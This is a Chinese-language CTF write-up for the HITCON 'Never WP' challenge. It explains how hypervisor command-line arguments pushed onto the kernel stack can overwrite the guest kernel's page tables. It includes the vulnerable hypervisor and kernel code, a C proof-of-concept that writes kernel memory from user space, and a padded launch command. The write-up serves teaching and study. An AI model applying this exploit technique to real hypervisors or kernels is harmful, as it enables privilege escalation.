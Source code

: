 # Never WP

### 漏洞点

1. 在hypervisor的setup_paging函数里，首先安装了这么的页表：

   ```c
   
   #define PS_LIMIT (0x200000)
   #define KERNEL_STACK_SIZE (0x4000)
   #define MAX_KERNEL_SIZE (PS_LIMIT - 0x5000 - KERNEL_STACK_SIZE)
   #define MEM_SIZE (PS_LIMIT * 0x10)
   
     uint64_t pml4_addr = MAX_KERNEL_SIZE;
     uint64_t *pml4 = (void*) (vm->mem + pml4_addr);
   
     uint64_t pdp_addr = pml4_addr + 0x1000;
     uint64_t *pdp = (void*) (vm->mem + pdp_addr);
   
     uint64_t pd_addr = pdp_addr + 0x1000;
     uint64_t *pd = (void*) (vm->mem + pd_addr);
   
     pml4[0] = PDE64_PRESENT | PDE64_RW | PDE64_USER | pdp_addr;
     pdp[0] = PDE64_PRESENT | PDE64_RW | PDE64_USER | pd_addr;
     pd[0] = PDE64_PRESENT | PDE64_RW | PDE64_PS; /* kernel only, no PED64_USER */
   
     sregs.cr3 = pml4_addr;
     sregs.cr4 = CR4_PAE;
   ```

   PDE_PS标志位开启，说明其映射的是一个2M（0x200000）的页到0地址；这部分接下来会作为内核代码的起始地址。

   从这段代码我们可以看见，内核最大的大小只能是0x1f7000, 接下来的0x5000空间是给内核页表使用的。0~0x1000是pml，0x1000~0x2000是pdp，0x2000~0x3000是pd。

2. 然后在kvm_init里会调用setup_regs函数去初始化虚拟机运行的寄存器：

   ```c
   regs.rip = entry;
   regs.rsp = MAX_KERNEL_SIZE + KERNEL_STACK_SIZE; /* temporary stack */
   regs.rdi = PS_LIMIT; /* start of free pages */
   regs.rsi = MEM_SIZE - regs.rdi; /* total length of free pages */
   regs.rflags = 0x2;
   ```

   可以看见，RSP被设置成了MAX_KERNEL_SIZE + KERNEL_STACK_SIZE，也就是MAX_KERNEL_SIZE + 0x4000 (0x1f7000+0x4000=0x1fb000 )。

3. 然后在执行内核代码之前，会调用copy_argv将hypervisor程序的第3个之后的参数压栈：

   ```c
   copy_argv(vm, argc - 2, &argv[2]);
   ```

   4. 然后内核初始化自己页表，调用init_pagetable函数:

```c
/* Maps
 *  0x8000000000 ~ 0x8002000000 -> 0 ~ 0x2000000
 */
void init_pagetable() {
  uint64_t* pml4;
  asm("mov %[pml4], cr3" : [pml4]"=r"(pml4));
  uint64_t* pdp = (uint64_t*) ((uint64_t) pml4 + 0x3000);
  pml4[1] = PDE64_PRESENT | PDE64_RW | (uint64_t) pdp; // 0x8000000000
  uint64_t* pd = (uint64_t*) ((uint64_t) pdp + 0x1000);
  pdp[0] = PDE64_PRESENT | PDE64_RW | (uint64_t) pd;
  for(uint64_t i = 0; i < 0x10; i++)
    pd[i] = PDE64_PRESENT | PDE64_RW | PDE64_PS | (i * KERNEL_PAGING_SIZE);
}
```

  `pml4[1]`代表这个1级页表所表示的空间从0x8000000000（1<<47）开始到（1<< 48）-1。

   然后可以看见  MAX_KERNEL_SIZE+0x3000（0x1fa000）的部分作为pml4的第1项，然后MAX_KERNEL_SIZE+0x4000（0x1fb000）的部分作为pml4第1项的pdp的第0项，也就是pd的起始地址。

   MAX_KERNEL_SIZE+0x4000刚好是内核栈的栈顶，也就是通过系统调用（参数压入内核栈），我们可以修改pdp的内容。

   所以，我们的目标是，添加一个页表的表项，设置其标识位，使得我们可以在用户态访问这个页表的虚拟地址，这个页表的虚拟地址被同样映射到了虚拟机的物理0地址，也就是内核的起始地址。

### 尝试

  有了思路之后，我们就开始尝试利用。

*1*    我们需要mmap一块空间，使其作为pdp的项，这个表项的内容是0x87，代表其映射的地址是物理地址0，其标识位的为`PDE64_PRESENT | PDE64_RW | PDE64_USER| PDE64_PS` 。也就是用户态可以访问这个高地址。

*2*    我们需要算出前面mmap地址所对应的内核物理地址，将这个物理地址 |   PDE64_PRESENT | PDE64_RW | PDE64_USER ，填入pdp中作为其中的一项。 （这里查找mmap物理地址的方法是查找内存中的magic number）

*3*    但是因为PIE的原因，这个内核物理地址会改变，因为需要做一定的喷射，增加命中概率。

*4*     计算表项的所对应的虚拟地址（内核空间），在用户空间修改其内容就可以修改内核。

然而经过多次的尝试，可以发现这样是不可能成功。 因为 ` pml4[1] = PDE64_PRESENT | PDE64_RW | (uint64_t) pdp; `代码限制了页表的内容是不可以被用户空间所访问的，所以改变0x3000到0x4000的页表并不会生效。

### 利用

 然后注意到很关键的一个点，就是`pml[0]中的pdp[0]的pd`我们是可以有机会修改的，只要我们能把栈往前推一个页面的大小。又因为hypervisor的命令行参数会被压入内核栈中，所以在hypervisor中加入一个页面大小的garbage参数就可以完成前面的利用效果。

  POC：

```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <syscall.h>
#include <unistd.h>

//#define KERNEL_BASE ((char*)0xf740000000)
#define KERNEL_BASE ((char*)0x3b400000)  //hex((0xed0 >> 3)<< 21)
int main() {
  printf("Hello!\n");
  unsigned long edit = (long)KERNEL_BASE;
  char buf[22];
  syscall(0, 0, buf, 1, 0x87,0x87,0x87);
  *(long*)edit = 0xdeadbeef12345679;
  while(1){
    putchar(getchar());
    fflush(stdout);
  }
  return 0;
}
```

然后启动hypervisor:

```c
./hypervisor.elf kernel.bin ld.so ./user.elf `python -c 'print "a"*4096'`
```

### 最后

 感觉比赛的时候都没人仔细看这个题。

这个题的发现和利用需要做题人本身对操作系统中页表和地址转换的知识点比较熟悉。

感谢david942j在hitcon出了这么一个有趣的题目，让我学到了不少东西。

和操作系统搏斗比和libc搏斗有意思的多。 

